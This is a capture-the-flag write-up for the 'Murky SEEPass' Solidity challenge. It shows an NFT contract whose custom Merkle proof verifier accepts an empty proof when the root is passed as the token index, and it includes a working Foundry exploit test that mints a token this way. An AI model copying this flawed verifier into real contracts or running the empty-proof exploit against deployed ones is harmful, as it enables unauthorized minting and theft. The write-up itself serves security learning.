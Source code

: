 # Murky SEEPass

## Challenge

In this challenge, we are provided with 2 contracts. The SEEPass which is an ERC721 and the Merkleproof.sol which "should" be used to verify MerkleProofs.

SEEPass.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./MerkleProof.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract SEEPass is ERC721 {
    bytes32 private _merkleRoot;
    mapping(uint256 => bool) private _minted;

    constructor(bytes32 _root) ERC721("SEE Pass", "SEEP") {
        _merkleRoot = _root;
    }

    function mintSeePass(bytes32[] calldata _proof, uint256 _tokenId) public {
        require(!hasMinted(_tokenId), "Already minted");
        require(verify(_proof, _merkleRoot, _tokenId), "Invalid proof");

        _minted[_tokenId] = true;

        _safeMint(msg.sender, _tokenId);
    }

    function verify(bytes32[] calldata proof, bytes32 root, uint256 index) public pure returns (bool) {
        return MerkleProof.verify(proof, root, index);
    }

    function hasMinted(uint256 _tokenId) public view returns (bool) {
        return _minted[_tokenId];
    }
}

```

Merkleproof.sol
```solidity
// SPDX-License-Identifier: Unlicense

pragma solidity ^0.8.0;

library MerkleProof {
    // Verify a Merkle proof proving the existence of a leaf in a Merkle tree. Assumes that each pair of leaves and each pair of pre-images in the proof are sorted.
    function verify(bytes32[] calldata proof, bytes32 root, uint256 index) internal pure returns (bool) {
        bytes32 computedHash = bytes32(abi.encodePacked(index));

        require(root != bytes32(0), "MerkleProof: Root hash cannot be zero");
        require(computedHash != bytes32(0), "MerkleProof: Leaf hash cannot be zero");

        for (uint256 i = 0; i < proof.length; i++) {
            bytes32 proofElement = proof[i];

            if (computedHash < proofElement) {
                // Hash(current computed hash + current element of the proof)
                computedHash = keccak256(abi.encodePacked(computedHash, proofElement));
            } else {
                // Hash(current element of the proof + current computed hash)
                computedHash = keccak256(abi.encodePacked(proofElement, computedHash));
            }
        }

        // Check if the computed hash (root) is equal to the provided root
        return computedHash == root;
    }
}
```

Our goal is to get one NFT.

## Solution
The key part of a Merkle tree is the root. In this case, it's set to private so we are not intended to see it. Nevertheless, we can easily retrieve it using web3.js/cast. It is 0xd158416f477eb6632dd0d44117c33220be333a420cd377fab5a00fdb72d27a10. I found it online as I did this challenge after the CTF was already over and the infra was gone.

After that, I took a look at the functions inside the contract. I quickly found the vulnerability inside the MerkleProof contract. The function verify() is missing a check if the proof has a length of 0. Because in this case, we can pass an empty proof and the root as the index, which will return true.

As I only got to do this without a deployed chal, I used my [ParadigmCTFDebugTemplate](https://github.com/J4X-98/SolidityCTFToolkit/blob/main/forge/paradigmTester.sol) to simulate and debug the challenge. Here you can see my test case as well as the calls I made to solve the chal.

```solidity
// Description:
// A forge testcase which you can use to easily debug challenges that were built using the Paradigm CTF framework.

// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
//Import all needed contracts here (they are usually stored in /src in your foundry directory)
import "../src/SEEPass.sol";

contract ParadigmTest is Test {
    address deployer = makeAddr("deployer");
    address attacker = makeAddr("attacker");

    //Initialize any additional needed variables here
    SEEPass public pass;

    function setUp() public {
        vm.deal(deployer, 2500 ether);
        vm.startPrank(deployer);

        //Copy all code from the Setup.sol constructor() function into here
        pass = new SEEPass(0xd158416f477eb6632dd0d44117c33220be333a420cd377fab5a00fdb72d27a10);

        vm.stopPrank();
    }

    function test() public {
        //30 eth are the standard for the paradigm framework, but this could be configured differently, you can easily check this by importing the rpc url and private key into metamask and checking the balance of the deployer account
        vm.deal(attacker, 10 ether); 
        vm.startPrank(attacker);

        //Code your solution here
        bytes32[] memory emptyProof;
        pass.mintSeePass(emptyProof, 0xd158416f477eb6632dd0d44117c33220be333a420cd377fab5a00fdb72d27a10);

        vm.stopPrank();
        assertEq(isSolved(), true);
    }

    function isSolved() public view returns (bool) {
        //Copy the content of the isSolved() function from the Setup.sol contract here
        return pass.balanceOf(address(attacker)) > 0;
    }
}
```

